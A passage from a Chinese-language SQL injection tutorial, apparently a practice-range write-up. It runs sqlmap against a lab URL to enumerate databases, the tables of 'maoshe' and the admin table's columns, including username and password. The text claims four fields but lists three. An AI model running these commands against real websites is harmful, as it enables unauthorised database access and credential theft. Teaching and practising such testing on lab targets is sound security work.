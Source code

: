 打开sqlmap，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" --dbs
```

这一步是扫出网站数据库名

结果如下：

![](https://pic1.imgdb.cn/item/6472b97ff024cca17306c56f.jpg)

从sqlmap扫到的数据库名来看我们得到了三个数据库名：

- `information_schema`
- `maoshe`
- `test`



文章开头提到的，在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个`information_schema`的数据库

`test`数据库是MySQL系统默认安装时自带的一个数据库名，它通常用于进行测试和示例目的，而不是用于实际的生产环境

于是我们得到了网站的数据库名为：` maoshe`

> 与之前手工注入的结果一样



接下来要去扫`maoshe`数据库下的表名，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe --tables
```

结果如下：

![](https://pic1.imgdb.cn/item/6472bd3df024cca1730a7469.jpg)

从sqlmap扫到的数据库名来看我们得到了四个数据表名：

- `admin`
- `dirs`
- `news`
- `xss`



接下来是查询`admin`表下有哪些字段名，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe -T admin --columns
```

结果如下：

![](https://pic1.imgdb.cn/item/6472c186f024cca17310f399.jpg)

从sqlmap扫到的字段(列)名来看我们得到了四个字段名：

- `Id`
- `username`
- `password`
